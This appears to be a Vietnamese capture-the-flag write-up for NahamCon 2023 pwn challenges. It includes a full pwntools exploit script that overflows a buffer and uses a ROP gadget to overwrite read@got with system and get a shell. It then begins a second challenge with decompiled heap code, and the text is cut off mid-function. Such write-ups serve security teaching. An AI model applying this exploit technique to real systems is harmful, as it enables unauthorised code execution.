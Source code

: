 ![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/cf8b1151-1408-4ef3-89dd-427e4323758b)

Để ý RELRO của binary là `Partial RELRO` nên ta có thể thay đổi `read@got` hoặc `write@got` trỏ tới `system` bằng phép cộng tuyến tính của gadget đó thay vì cần leak libc ra.

Script:
```python
from pwn import *
from time import sleep

context.binary = e = ELF("./all_patched_up_patched")
libc = ELF("./libc.so.6")
gs="""
b *0x00000000004011ED
"""
def start():
	if args.LOCAL:
		p=e.process()
		if args.GDB:
			gdb.attach(p,gdbscript=gs)
			pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p

p = start()
cus = 0x00000000040124A
p.sendlineafter("> ",b"\0"*520+
		p64(cus)+
		p64(0xfffd5b3e)+ # ebx
		p64(e.got.read+0x3d)+ # rbp
		p64(0)*4+
		p64(0x40115c) + #add    DWORD PTR [rbp-0x3d],ebx ; ret
		p64(e.plt.read)
	)
p.interactive()
```

## Web Applicaton Firewall

Attachment:
[waf](https://robbert1978.github.io/assets/uploads/nahamcon2023/waf)
[libc-2.27.so](https://robbert1978.github.io/assets/uploads/nahamcon2023/libc-2.27.so)

Từ hàm `add_config`:
```c 
unsigned __int64 __fastcall add_config(__int64 a1)
{
  const char *v1; // rbx
  char v3; // [rsp+1Bh] [rbp-35h] BYREF
  int n; // [rsp+1Ch] [rbp-34h]
  char s[24]; // [rsp+20h] [rbp-30h] BYREF
  unsigned __int64 v6; // [rsp+38h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  printf("What is the id of the config?: ");
  fgets(s, 16, stdin);
  *(_DWORD *)a1 = atoi(s);
  memset(s, 0, 0x10uLL);
  printf("What is the size of the setting?: ");
  fgets(s, 16, stdin);
  n = atoi(s);
  *(_QWORD *)(a1 + 8) = malloc(n);
  printf("What is the setting to be added?: ");
  fgets(*(char **)(a1 + 8), n, stdin);
```